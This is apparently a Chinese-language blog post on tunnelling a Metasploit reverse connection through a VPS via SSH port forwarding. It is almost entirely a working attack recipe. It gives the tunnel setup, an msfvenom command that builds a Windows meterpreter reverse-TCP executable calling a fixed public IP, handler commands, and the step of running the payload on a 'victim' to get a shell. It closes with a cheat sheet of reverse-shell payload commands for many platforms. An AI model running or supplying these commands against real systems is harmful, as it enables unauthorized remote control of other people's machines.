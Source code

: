 ```yaml
---
layout:     post
title:      通过 VPS SSH Tunnel 实现内网穿透
author:     wooy0ung
tags: 		msf
category:  	exploit
---
```



>内网 IP 一般是动态变化的, 直接以内网 IP 的点对点通讯不利于维持控制。
>因此, 必须有一个公网 IP 作为跳板(这里用VPS), 当 Victim 反向连接 VPS时, 进行端口转发, 将
所有流量通过 SSH Tunnel 发送到 Attacker 的机器。  
![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x00.png)
<!-- more -->


### 0x00 config & open SSH Tunnel

在 /etc/ssh/sshd_config 文件末尾添加

```
GatewayPorts yes
```

打开ssh隧道

```
$ ssh -N -R 9000:192.168.1.116:9000 root@VPS_IP
```


### 0x01 make payload & exploit

生成 x86 Windows payload

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=188.166.209.119 LPORT=9000 -f exe > run.exe
```

start msf

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.116
msf exploit(handler) > set lport 9000
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

测试 ssh Tunnel 是否畅通

```
$ tcping VPS_IP 9000
```

msf弹出提示信息, 端口转发正常

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x01.png)

在 Victim's Machine 上执行 payload, getshell~

![](/assets/img/exploit/2017-09-02-vps-ssh-msf/0x02.png)


### 0x02 后记: msfvenom生成各类payload命令

```
Linux: 
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=IP lport=PORT -f elf > shell.elf

Windows: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f exe > shell.exe

Mac: 
msfvenom -p osx/x86/shell_reverse_tcp lhost=IP lport=PORT -f macho > shell.macho

PHP: 
msfvenom -p php/meterpreter_reverse_tcp lhost=IP lport=PORT -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

ASP: 
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f asp > shell.asp

JSP: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f raw > shell.jsp

WAR: 
msfvenom -p java/jsp_shell_reverse_tcp lhost=IP lport=PORT -f war > shell.war

Python: 
msfvenom -p cmd/unix/reverse_python lhost=IP lport=PORT -f raw > shell.py

Bash:
msfvenom -p cmd/unix/reverse_bash lhost=IP lport=PORT -f raw > shell.sh

Perl: 
msfvenom -p cmd/unix/reverse_perl lhost=IP lport=PORT -f raw > shell.pl
```